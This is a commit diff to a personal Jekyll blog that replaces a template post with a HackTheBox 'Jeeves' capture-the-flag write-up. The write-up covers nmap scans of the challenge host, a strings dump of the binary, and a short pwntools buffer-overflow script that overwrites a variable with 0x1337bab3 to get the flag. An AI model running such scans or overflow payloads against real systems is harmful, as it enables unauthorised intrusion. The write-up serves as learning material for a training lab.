

Before and after one commit to hamzawinix/hamzawinix.github.io, a Jekyll site: the page built from tags.html, in a window 1280 px wide and 900 px high, scrolled down 604 px. Shown: the top 893 px of the window, without its empty margins (206-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1225 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
written jeeves

````diff
--- a/_posts/2021-06-11-Jeeves-hackthebox-binaryexploit.md
+++ b/_posts/2021-06-11-Jeeves-hackthebox-binaryexploit.md
@@ -1,69 +1,225 @@
 ---
 layout: post
-title:  "template"
+title:  "Jeeves-hackthebox:intro to binary exploitation"
 image: ''
-date:   2016-03-12 00:06:31
+date:   2021-11-06 00:06:31
 tags:
-- mongodb
+- hackthebox
+- binary_exploitation
 description: ''
 categories:
-- Learn GH
+- hackthebox
 ---
 
-<p class="music-read"><a href="spotify:track:4DAZ8UYNpWVIV46aLkN2Qp">Music for reading(spotify)</a></p>
 
-<img src="http://cdn1.tnwcdn.com/wp-content/blogs.dir/1/files/2016/02/raw.gif">
+# Given
 
-## Github ? why ?
+```
+host
+165.227.225.205:31382
 
-Lorem ipsum dolor sit amet, consectetur adipisicing elit. Iste quas, esse laudantium quis ipsa consequuntur iure atque! Necessitatibus quam quidem illum, corrupti molestiae, maxime neque, consequuntur quia alias, modi commodi.Lorem ipsum dolor sit amet, consectetur adipisicing elit. Cupiditate rem ducimus dolores repellat itaque perferendis corporis ex dicta doloremque optio harum excepturi, ut, praesentium asperiores! Voluptatum amet perspiciatis iusto, fugiat!Lorem ipsum dolor sit amet, consectetur adipisicing elit. Harum, libero quia placeat necessitatibus culpa mollitia, illum, quam sed ratione ad eaque suscipit consectetur itaque quasi aperiam. Quaerat, nihil voluptas tenetur?Lorem ipsum dolor sit amet, consectetur adipisicing elit. Eos unde quam autem fugit, aliquam perspiciatis, accusamus numquam, pariatur impedit excepturi debitis repellendus consectetur laboriosam voluptatem temporibus sunt illo magnam! Voluptates.Lorem ipsum dolor sit amet, consectetur adipisicing elit. Ullam repudiandae quidem, fuga eaque, deserunt eius. Aperiam, maxime fuga alias ad vel amet et facere soluta asperiores quasi. A, aperiam, ipsam.
+challenge description
+How are you doing, sir?
 
-<figure class="foto-legenda">
-	<img src="{{ "/assets/img/sharding-gerenciamento-usuarios/ajudando-carregar.jpg"}}" alt="">
-	<figcaption> <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit. Repellat architecto minus sed dolorum debitis iste quae harum, fuga commodi libero voluptatum voluptates nemo, assumenda itaque. Placeat neque voluptatem, veritatis quae.</p>
-	</figcaption>
-</figure>
-
-Lorem ipsum dolor sit amet, consectetur adipisicing elit. Tenetur, illo eaque incidunt voluptatibus minus repudiandae eius consectetur tempore enim quisquam, quia veniam fuga autem, labore quas voluptate suscipit. Omnis, rem!Lorem ipsum dolor sit amet, consectetur adipisicing elit. Vero, veritatis modi libero unde! Sapiente tempora eius cum doloribus, non, provident, veniam placeat veritatis quos possimus asperiores ipsam animi aliquam vel!
-
-<img src="https://octodex.github.com/images/codercat.jpg" alt="">
-
-## Lorem ipsum dolor, alias.?
-
-Lorem ipsum dolor sit amet, consectetur adipisicing elit. Nemo minima veritatis est, unde nesciunt optio debitis. Soluta eos temporibus harum esse eveniet, alias praesentium, sapiente ipsa excepturi reprehenderit ullam ea.
-
-### Warning!
-
-Lorem ipsum dolor sit amet, consectetur adipisicing elit. Atque corporis, fuga sequi cumque in quos excepturi placeat iste! Eaque voluptatum laudantium, recusandae optio! Rem impedit laborum enim minima aliquid, repellendus.<br>
-` scalability` Lorem ipsum dolor sit amet, consebus tempora!:
-
-1. <a href="http://dba.stackexchange.com/questions/4508/what-does-horizontal-scaling-mean" target="_blank">What does horizontal scaling mean?</a>
-2. <a href="https://blog.openshift.com/best-practices-for-horizontal-application-scaling/" target="_blank">Best Practices For Horizontal Application Scaling</a>
-3. <a href="http://www.infoq.com/articles/ebay-scalability-best-practices" target="_blank">Scalability Best Practices: Lessons from eBay</a>
-4. <a href="http://stackoverflow.com/questions/5401992/what-does-scale-horizontally-and-scale-vertically-mean" target="_blank">What does scale horizontally and scale vertically mean?</a>
-
-## Lorem ipsum dolor sit amet,res.
+some binary file
+jeevs
+```
+I started by scanning the host
+```
+ nmap -Pn --min-rate 4500 --max-rtt-timeout 1500ms   165.227.225.205 -p-
+```
 
 
-{% highlight javascript %}
-use admin
-db.createUser{
-	user: "bonitao",
-	pwd: "2016bonitao",
-	roles: [{role: "userAdminAnyDatabase", db: "admin"}]
-}
-{% endhighlight %}
+# analysing jeevs file
 
-Lorem ipsum dolor sit amet, consectetur adipisicing elit. Cumque asperiores quam fuga tempora nisi consequatur, sequi cum voluptate deleniti quis, perspiciatis commodi beatae modi, iusto ab deserunt corrupti libero doloribus.
+file type
+```
+./jeeves: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
+```
 
-{% highlight javascript %}
+strings out ->
+```
+➜  Desktop strings jeeves
+/lib64/ld-linux-x86-64.so.2
+libc.so.6
+gets
+printf
+read
+malloc
+close
+open
+__cxa_finalize
+__libc_start_main
+GLIBC_2.2.5
+_ITM_deregisterTMCloneTable
+__gmon_start__
+_ITM_registerTMCloneTable
+u+UH
+[]A\A]A^A_
+Hello, good sir!
+May I have your name?
+Hello %s, hope you have a good day!
+flag.txt
+Pleased to make your acquaintance. Here's a small gift: %s
+:*3$"
+GCC: (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008
+crtstuff.c
+deregister_tm_clones
+__do_global_dtors_aux
+completed.8055
+__do_global_dtors_aux_fini_array_entry
+frame_dummy
+__frame_dummy_init_array_entry
+src.c
+__FRAME_END__
+__init_array_end
+_DYNAMIC
+__init_array_start
+__GNU_EH_FRAME_HDR
+_GLOBAL_OFFSET_TABLE_
+__libc_csu_fini
+_ITM_deregisterTMCloneTable
+_edata
+printf@@GLIBC_2.2.5
+close@@GLIBC_2.2.5
+read@@GLIBC_2.2.5
+__libc_start_main@@GLIBC_2.2.5
+__data_start
+__gmon_start__
+__dso_handle
+_IO_stdin_used
+gets@@GLIBC_2.2.5
+__libc_csu_init
+malloc@@GLIBC_2.2.5
+__bss_start
+main
+open@@GLIBC_2.2.5
+__TMC_END__
+_ITM_registerTMCloneTable
+__cxa_finalize@@GLIBC_2.2.5
+.symtab
+.strtab
+.shstrtab
+.interp
+.note.gnu.property
+.note.gnu.build-id
+.note.ABI-tag
+.gnu.hash
+.dynsym
+.dynstr
+.gnu.version
+.gnu.version_r
+.rela.dyn
+.rela.plt
+.init
+.plt.got
+.plt.sec
+.text
+.fini
+.rodata
+.eh_frame_hdr
+.eh_frame
+.init_array
+.fini_array
+.dynamic
+.data
+.bss
+.comment
 
-db.updateUser("bonitao",
-{
-	pwd: "2016bonitao",
-	roles: [{role: "read", db: "assets"}]
-})
+```
 
-{% endhighlight %}
+# jeeves data flow
+``
+jeeves run --> asks for name --> hello $name exits
+``
 
-Lorem ipsum dolor sit amet, consectetur adipisicing elit. Magni assumenda perferendis, iure atque. Tempore qui blanditiis autem necessitatibus natus soluta voluptas saepe totam animi voluptatum recusandae, nihil maiores et cumque.
+# nmap output
+
+```
+
+
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 16:58 EET
+Nmap scan report for 165.227.225.205
+Host is up (0.17s latency).
+Not shown: 65499 filtered ports, 35 closed ports
+PORT      STATE SERVICE
+31251/tcp open  unknown
+
+Nmap done: 1 IP address (1 host up) scanned in 29.74 seconds
+
+
+```
+
+
+one port open
+
+analysing port:
+```
+ nmap -Pn -sC -sV 165.227.225.205 -p31251
+
+```
+
+output
+
+```
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 17:00 EET
+Nmap scan report for 165.227.225.205
+Host is up (0.16s latency).
+
+PORT      STATE SERVICE VERSION
+31251/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
+|_http-server-header: Apache/2.4.41 (Ubuntu)
+|_http-title: Employee File Manager
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 16.50 seconds
+
+```
+
+
+Looking into jeeves page on port 31251
+![](https://i.imgur.com/qHSg99V.png)
+
+
+
+seems same binary is deployed there
+lets try connectingto it with `nc`
+![](https://i.imgur.com/tNgoUQK.png)
+
+
+
+# further analysing binary with ghidra
+
+we realise we need 60 x a to reach the var we want
+
+![](https://i.imgur.com/TtA2Muk.png)
+
+so I used pwn tools witn nc
+
+```
+from pwn import *
+
+target = process("nc")
+target.sendline("209.97.187.130 32259")
+
+payload = "A"*60
+payload += p64(0x1337bab3)
+
+target.sendline(payload)
+print (target.recvuntil("}"))
+```
+
+and we get the flag
+![](https://i.imgur.com/t2zqVDZ.png)
+
+
+
+```
+flag
+ HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}
+
+```
+#easy
+#binary
````
Also changed, not shown: 1 other file.
